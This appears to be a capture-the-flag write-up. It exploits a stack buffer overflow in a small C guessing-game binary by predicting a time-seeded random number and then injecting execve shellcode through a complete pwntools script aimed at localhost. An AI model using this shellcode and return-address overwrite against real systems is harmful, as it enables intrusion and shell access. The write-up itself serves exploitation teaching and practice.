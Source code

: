### Writeup for the Challenge

#### Overview

This challenge involves exploiting a buffer overflow vulnerability in a simple C program. The program asks the user to guess a random number. If the guess is correct, it calls a vulnerable function (`vuln`) that has a buffer overflow vulnerability. The objective is to guess the random number, trigger the buffer overflow, and inject shellcode to get a shell.

#### Steps to Exploit

0. **Checksec**:
    ![check](assets/checksec.png)
    - Since the stack is executable, we can inject shellcode and return to it to execute it.
    - Since there is no canary, we don't need to leak it.
    
1. **Decompiler View (Ghidra)**:


    ![main](assets/main.png)


    ![vuln](assets/vuln.png)

    - The program has two functions: `main()` and `vuln()`.
    - `main()` generates a random number and asks the user to guess it. If the guess is correct, it calls `vuln()`.
    - `vuln()` has a buffer overflow vulnerability due to the `read(0, buffer, 133);` call. The buffer is only 64 bytes, but `read` can read up to 133 bytes, leading to a buffer overflow.



2. **Random Number Guessing**:
    - The program generates a random number using `srand(time(NULL))` and `rand()`.
    - The user must guess this random number to proceed to the vulnerable function `vuln()`.
    - The seed for `rand()` is set using `time(NULL)`, which means if the connections are established in the same second, the same random number will be generated. This allows us to reconnect using the same guessed number.

3. **Getting the Buffer Address**:
    - The program prints the address of the buffer before asking for input, which we can use to overwrite the return address.

4. **Injecting Shellcode**:
    - Inject shellcode into the buffer and overwrite the return address to point to the buffer.

#### Exploitation Script

```python
from pwn import *

# specify the target binary
binary = './dbm'
# specify the target architecture
context.binary = binary
context.arch = 'amd64'

# Connect to the target
p = remote('localhost', 2002)

# Step 1: Guess the random number
p.recvuntil(': ')
p.sendline('1')  # Send an initial guess to get the secret number
receivedBytes = p.recvall().decode('utf-8')
p.close()

# Extract the random number
randomNumber = receivedBytes.split('\n')[0].split(' ')[-1]

# Reconnect to the target
p = remote('localhost', 2002)
p.recvuntil(': ')
p.sendline(randomNumber)  # Send the correct guess

# Step 2: Get the buffer address
address = p.recvline().decode('utf-8').strip()
p.recvuntil(': ')

# Step 3: Prepare the shellcode
shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

# Step 4: Create the payload
offset = 64 + 8  # 64 bytes for the buffer + 8 bytes for the saved RBP
payload = shellcode + b'A' * (offset - len(shellcode)) + p64(int(address, 16))

# Send the payload
p.sendline(payload)
p.interactive()
```

#### Explanation of the Exploitation Script

1. **Connecting to the Target**:
    - We connect to the target using `p = remote('localhost', 2002)`.

2. **Guessing the Random Number**:
    - We send an initial guess (`'1'`) to get the random number from the output.
    - Extract the random number from the received bytes.

3. **Reconnecting and Sending the Correct Guess**:
    - Reconnect to the target and send the correct random number. Because the seed for `rand()` is set using `time(NULL)`, if the connections are established in the same second, the same random number will be generated.

4. **Getting the Buffer Address**:
    - Read the buffer address printed by the program.

5. **Preparing the Shellcode**:
    - Prepare the shellcode to be injected.

6. **Creating and Sending the Payload**:
    - Create the payload by placing the shellcode in the buffer and overwriting the return address with the buffer's address.
    - Send the payload and interact with the shell obtained.

This script automates the process of guessing the random number, exploiting the buffer overflow vulnerability, and injecting shellcode to get a shell.